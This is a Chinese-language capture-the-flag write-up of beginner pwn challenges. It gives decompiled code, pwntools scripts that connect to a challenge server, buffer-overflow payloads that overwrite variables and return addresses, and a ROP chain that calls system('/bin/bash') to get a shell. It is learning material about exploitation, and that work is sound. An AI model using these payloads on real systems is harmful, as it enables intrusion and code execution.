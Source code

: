 ##  get shell

本题是签到题
只需要连接远程端口，然后直接输入指令就可以了。

- way 1

  ```bash
  nc -nv ip port 
  cat flag
  ```

- 方法2 , 使用 pwntools

  ```python
  #coding = utf-8
  from pwn import *
  
  context.log_level = 'debug'
  io = remote('111.198.29.45', 54766)
  io.sendline('ls')
  io.sendline('cat flag')
  io.interactive()
  ```

## when_did_you_born

首先使用 checksec 查看程序，发现程序开启了栈运行保护和canary。
然后直接使用 ghidra 反汇编二进制文件。通过字符串定位搜索找到程序入口 main 函数，直接读反编译源码。
找到关键代码如下：

```c
  do {
    iVar1 = getchar();
  } while (iVar1 != 10);
  if (input_name[0] == 0x786) {
    puts("You Cannot Born In 1926!");
  }
  else {
    puts("What\'s Your Name?");
    gets(local_28);
    printf("You Are Born In %d\n",(ulong)input_name[0]);
    if (input_name[0] == 0x786) {
      puts("You Shall Have Flag.");
      system("cat flag");
    }
    else {
      puts("You Are Naive.");
      puts("You Speed One Second Here.");
    }
  }
```

查看程序执行流程可以发现，程序首先检查输入年龄是否为 1926，如果是就结束。
否则继续输入名称，gets 函数读入名称可能会造成栈溢出。
随便输入一个超长字符串，果然栈溢出了，但是由于开启了 canary ，因此报错如下：
![when_did_you_born_1](img/when_did_you_born_1.PNG)

然后想使用字符串填充的方式获得需要输入的payload，因为对缓冲区溢出的方向并不知道。

```bash
1234567890112233445566778899001112223334445556667778889990001111222233334444555566667777888899990000
```

后面发现自己这一步绕了很大的圈子。其实 name 和 age 是两个局部变量，只需要查看在栈上的相对地址即可确定。
使用 ghidra 查看两个局部函数的相对地址。
![when_did_you_born_2_查看相对地址](img/when_did_you_born_2_查看相对地址.PNG)
二者对应在栈中的布局如下：
![when_did_you_born_2_小端序栈溢出](img/when_did_you_born_2_小端序栈溢出.PNG)

需要记住的是，**小端序中，栈溢出的方向是从低地址向高地址**。
接下来就是一些 pwntools 的漏洞利用技巧

```python
from pwn import *
r=remote("111.198.29.45",33469)
payload='a'*(0x20-0x18)+p64(1926)
r.recvuntil("What's Your Birth?\n")
r.sendline("0")
r.recvuntil("What's Your Name?\n")
r.sendline(payload)
print r.recv()
print r.recv()
#r.interactive()
```

## hello_pwn

这题很简单，直接下载附件使用 ghidra ，定位到main函数如下：

![hello_pwn_main](img/hello_pwn_main.PNG)

如图可以发现 main 函数读取一个字符串到内存中，然后检查字符串的结尾段是不是 aaun。因此随便构造一个 payload 如下即可。

```bash
a*(DAT_0060106c - DAT_00601068-) + aaun 
```

例如 aaaaaaun ，就可以成功执行 cat flag 的指令。
![hello_pwn_get_flag](img/hello_pwn_get_flag.PNG)

## level0

直接查看 main 函数，非常粗暴，直接就是调用一个漏洞函数vulnerable_function,
函数vulnerable_function 也很粗暴，直接向一个  0x80 大小的字符串数组中写入一个 0x200 的字符串。那可不就得栈溢出吗 !
因为局部变量非常简单，就一个字符串，直接构造 payload 。 
![level0_1](img/level0_1.PNG)

函数调用栈压栈顺序为：参数、返回值、寄存器、局部变量。
观察上图中可知，局部变量只有字符串数组一个，压栈的寄存器只有ebp。因此构造的payload如下。

```python
from pwn import * 
r = remote("111.198.29.45",48316)#远程连接
#'a'*0x8是填充ebp，p64(0x00400596)是填充ret
payload = 'A' * 0x80 + 'a' * 0x8 + p64(0x00400596)
r.recvuntil("Hello, World\n")#直到接收到Hello,World才执行后面的操作
r.sendline(payload)#发送一行数据
r.interactive()#交互shell
```

函数执行 ret 指令的时候，相当于执行 `pop ip`
函数执行 LEAVE  指令时，恢复了过程被调用时 ESP 和 EBP 的值，结束了被调用过程的栈帧。
此处还有个问题，此处的 `0x00400596` 的地址，直接在 ghidra 中打开就是这个地址，因此有两种可能：
1. ghidra 模仿了程序在加载到内存中的过程，加载的起始地址，就是内部相对地址。
2. 程序在链接的过程中就把相对地址直接硬编码到程序中了（感觉这种可能性不大）

## level2

开头就有个坑，因为前面几个题目都是 x64 ，因此本题先入为主的就认为也是 x64 的程序。但是后面才发现程序是 32 位的，这直接关系到 payload 的构造，因此还是应该更加慎重一些。
![level2_5](img/level2_5.PNG)

本题中题目给的提示十分直接明了，构造rop链，执行system('/bin/bash')，拿到shell，即可获得执行 cat flag 的权限。

首先找到 main 函数进行分析，可以发现 main 函数直接简单粗暴的调用了漏洞函数，进一步查看漏洞函数，发现程序向一个大小为 0x88  的字符串数组，输入一个 0x100 的字符串。这铁定得溢出啊，接下来就是构造 rop 调用 system 函数了。

![level2_3](img/level2_3.PNG)

**函数地址：**
直接查看到 system 函数存在本程序的 plt 表中，那就简单太多了，直接获取到 system@plt 函数对应的解析地址，因为 system@plt是一个内部函数，因此使用相对地址即可。
此处注意区分外部导入函数 system ，和内部函数 system@plt。

**内部函数 system@plt**
![level2_1](img/level2_1.PNG)

**外部导入函数**
![level2_2](img/level2_2.PNG)

**参数：**
查找字符串发现'/bin/bash'，存在于程序数据段，直接拿来用。
![level2_4](img/level2_4.PNG)

因此构造出来的 payload 如下

```bash
0x88+ 0x4*1+ p32(system_addr) + p32(0) + p32(字符串_addr)
```

这里还有一个需要注意的问题，这个函数的调用只传了一个参数，注意多个参数传递时候的顺序问题。
![payload参数构造](img/payload参数构造.png)

## string  todo

main函数分配了两个指针并赋值，给出了两个指针的地址，根据函数知道两个指针的内容。

puVar2[0] = 0x44

puVar2[1] = 0x55

文件对应的 hash 值， 1d***

## 问题

- 函数调用栈中，函数调用栈压栈顺序为：参数、返回值、寄存器、局部变量。那么返回值和寄存器是什么时候压栈的，是在 caller 中，还是在 callee 中？
  返回值是在执行 call function 的时候，将返回值入栈的。寄存器的保存和恢复是在 callee 中完成的。
- **内部函数如何相互调用？是怎么找到对应的相对地址的？** 

## 参考

- [攻防世界XCTF-Pwn入门11题解题报告](https://zhuanlan.zhihu.com/p/113052039)

## 体会

之前一直不知道找函数漏洞的目的是什么，现在理解的利用结果就是 get shell ，菜鸡入门，仍需努力。

- 成功执行 system('/bin/bash')
- 成功执行 cat flag 相关函数。